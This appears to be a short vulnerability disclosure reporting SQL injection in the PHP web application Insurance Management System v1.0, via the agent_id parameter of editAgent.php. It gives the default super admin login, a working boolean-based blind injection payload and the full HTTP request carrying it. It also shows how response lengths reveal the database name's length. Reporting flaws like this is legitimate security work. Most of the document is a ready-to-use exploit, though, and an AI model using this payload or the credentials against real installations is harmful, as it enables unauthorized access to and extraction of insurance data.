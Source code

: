 # Insurance Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

vendors: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Login account: ahmed/12345 (Super Admin account)

Vulnerability File: /insurance/editAgent.php?agent_id=

Vulnerability location: /insurance/editAgent.php?agent_id=,agent_id

[+] Payload: /insurance/editAgent.php?agent_id=1610%27%20and%20length(database())%20=4%20--+ // Leak place ---> agent_id

Current database name: lims,length is 4

```sql
GET /insurance/editAgent.php?agent_id=1610%27%20and%20length(database())%20=4%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=tmbv0mt5ff9hphhe0mtv4sghfq
Connection: close
```

When length (database ()) = 3, Content-Length: 4385
![image](https://user-images.githubusercontent.com/54017627/166145342-de13b85a-2b57-4bbb-965c-57ab2c112997.png)

![image](https://user-images.githubusercontent.com/54017627/166145367-171f1c7d-e131-4794-b86d-f9f45964e16a.png)


When length (database ()) = 4, Content-Length: 4893

![image](https://user-images.githubusercontent.com/54017627/166145338-f342cbe4-3028-4bcf-953c-89ff90af5d06.png)

![image](https://user-images.githubusercontent.com/54017627/166145358-c260dda4-4ba1-4fdf-b555-24a486f86e99.png)


